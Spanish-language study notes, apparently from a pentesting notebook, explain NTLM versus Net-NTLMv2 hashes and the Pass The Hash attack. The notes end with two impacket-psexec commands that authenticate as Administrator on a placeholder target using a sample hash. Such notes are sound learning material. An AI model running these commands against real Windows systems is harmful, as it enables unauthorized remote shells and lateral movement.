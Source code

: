 ----
- Tags: #teoria #practica #windows #basico 
- ------

# Hash NTLM (Net LAN Manager)

### En Windows, los **hashes** NTLM (NT LAN Manager) se utilizan para almacenar **las contraseñas de los usuarios**. En lugar de almacenar las contraseñas en texto plano, se generan hashes mediante una función criptográfica a partir de las contraseñas. Estos hashes son valores de longitud fija que representan las contraseñas originales de forma no reversible.

### El hash NTLM es el resultado de aplicar una función criptográfica al valor de la contraseña original utilizando el protocolo NTLM. Este hash se utiliza para autenticar a los usuarios en un sistema Windows. Cuando un usuario inicia sesión, su contraseña se convierte en un hash NTLM y se compara con el hash almacenado en la base de datos del sistema. Si coinciden, se permite el acceso.

### **Este hash puede ser utilizado para realizar un Pass The Hash tanto como para intentar crackearlo, ya que es el hash original al cual fue convertida la contraseña en texto claro.**

---

# Hash NTLMv2 o Net-NTLM 

### Por otro lado, el hash **NTLMv2** es el hash que se genera en cada autenticación cliente/servidor, por lo que no es un hash que se almacene, sino que dependerá de cada comunicación.

### **Este hash puede ser utilizado para intentar crackearlo.**

----

# Pass The Hash 

### **Pass The Hash** consiste en un ataque en el que básicamente si se conoce el hash NTLM de un usuario, y ese usuario tiene los suficientes privilegios en el sistema. Se puede tanto ejecutar comandos como obtener una shell en el equipo Windows, solo conociendo su hash. 

```bash
# Una vez obtenido un hash NTLM, ejemplo: 
"aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"

# Ambas maneras son validas para llevar a cabo el Pass The Hash
impacket-psexec WORKGROUP/Administrator@{target_ip} -hashes :e0fb1fb85756c24235ff238cbe81fe00
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 Administrator@{target_ip}
```

### De esta manera nos podríamos autenticar como el usuario administrador en la máquina windows sin proporcionar contraseña ya que en lugar de esta proporcionamos el **hash NTLM**. 

